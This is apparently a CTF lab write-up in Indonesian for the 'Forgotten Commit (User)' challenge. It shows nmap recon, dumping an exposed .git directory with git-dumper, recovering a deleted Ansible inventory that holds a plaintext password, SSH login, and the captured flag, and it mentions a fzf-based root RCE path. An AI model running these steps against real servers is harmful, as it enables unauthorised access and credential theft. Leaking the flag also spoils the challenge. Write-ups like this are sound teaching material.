

# Forgotten Commit (User) — Cara Mendapatkan Flag

[← Overview](66-forgotten-commit-user.md) · [Index](index.md)

> **Langkah 2/5 — Cara Mendapatkan Flag.**
>
> **Flag:** `NFX{g1t_h1story_s3cr3ts_l34d_t0_ssh}`
> **Status:** `VERIFIED`

> Catatan: target sempat flaky (container mati dalam ~1 detik). Setelah
> `nx-up` ulang, port 80/22 stabil. IP yang benar adalah **`10.10.20.21`**,
> bukan `.20`.

## 1. Recon webroot

```bash
nmap -Pn -sV -p 22,80 10.10.20.21
curl -sS -i http://10.10.20.21/.git/HEAD
```

`/.git/` terbuka. Webroot adalah “Nexus Developer Platform”.

## 2. Dump repository

```bash
git-dumper http://10.10.20.21/ /tmp/nexus_repo
cd /tmp/nexus_repo
git log --oneline --all
```

Commit yang relevan:

```text
3f4c118 Remove Ansible inventory
bff2915 Initial deployment
```

## 3. Recover file yang dihapus

```bash
git show bff2915:ansible/inventory.ini
```

```ini
[web]
srv.nexus.internal ansible_user=leonardo ansible_password="Dev0pment#2026!"
```

## 4. SSH sebagai user

```bash
ssh leonardo@10.10.20.21
# password: Dev0pment#2026!
cat /home/leonardo/user.txt
```

```text
NFX{g1t_h1story_s3cr3ts_l34d_t0_ssh}
```

## 5. Verifikasi

Flag ini accepted (500 poin). Root path-nya ada di challenge
**Forgotten Commit (Root)** (fzf `--listen` → RCE root).

### Evidence langkah ini



*Terminal evidence (arsip/log asli) — `00b-terminal-evidence.png`.*
